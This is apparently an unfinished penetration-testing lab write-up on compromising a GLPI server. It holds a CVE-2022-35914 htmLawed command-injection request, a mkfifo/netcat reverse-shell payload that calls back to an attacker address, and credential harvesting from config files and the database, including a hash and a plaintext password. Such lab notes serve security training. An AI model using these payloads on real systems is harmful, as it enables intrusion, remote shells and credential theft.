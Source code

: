 #InProgress 
```
192.168.208.242
```
## Nmap
```

```

## Nmap UDP


# Enumeration

## HTTP

https://github.com/noxlumens/CVE-2022-35914_poc/blob/main/CVE-2022-35914.py
https://github.com/Digitemis/GLPIScan
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241007111121.png?raw=true)
```
POST //vendor/htmlawed/htmlawed/htmLawedTest.php HTTP/1.1

...
&hhook=array_map&text=call_user_func&hexec=passthru&spec[0]=&spec[1]=id&sid=947ekfk0o3aa2umtra329pr5um
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241007111001.png?raw=true)
```
&hhook=array_map&text=call_user_func&hexec=passthru&spec[0]=&spec[1]=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|sh+-i+2>%261|nc+192.168.45.200+80+>/tmp/f&sid=947ekfk0o3aa2umtra329pr5um
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241007112056.png?raw=true)


# PrivEsc

## Manual
```
/var/www/glpi/config/config_db.php:   public $dbpassword = 'glpi_db_password';                                       
/var/www/glpi/config/config_db.php:   public $dbuser = 'glpi'; 
```

```
mysql -u glpi --password='glpi_db_password'
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241007113912.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241007114110.png?raw=true)

```
$2y$10$jG8/feTYsguxsnBqRG6.judCDSNHY4it8SgBTAHig9pMkfmMl9CFa
```

```
select * from glpi_itilfollowups;
```

SnowboardSkateboardRoller234

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241007120302.png?raw=true)

```
wget http://localhost:8080/ -S
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241007121934.png?raw=true)


## Automated

### Peass
etc/alternatives/my.cnf
-rw-r--r-- 1 root root 601 Jan 24  2023 /etc/ssh/ssh_host_dsa_key.pub                                                                                                                                                                      
-rw-r--r-- 1 root root 173 Jan 24  2023 /etc/ssh/ssh_host_ecdsa_key.pub                                                                                                                                                                    
-rw-r--r-- 1 root root 93 Jan 24  2023 /etc/ssh/ssh_host_ed25519_key.pub                                                                                                                                                                   
-rw-r--r-- 1 root root 565 Jan 24  2023 /etc/ssh/ssh_host_rsa_key.pu

/var/www/glpi/vendor/tecnickcom/tcpdf/examples/data/cert/tcpdf.crt
### Mimikatz

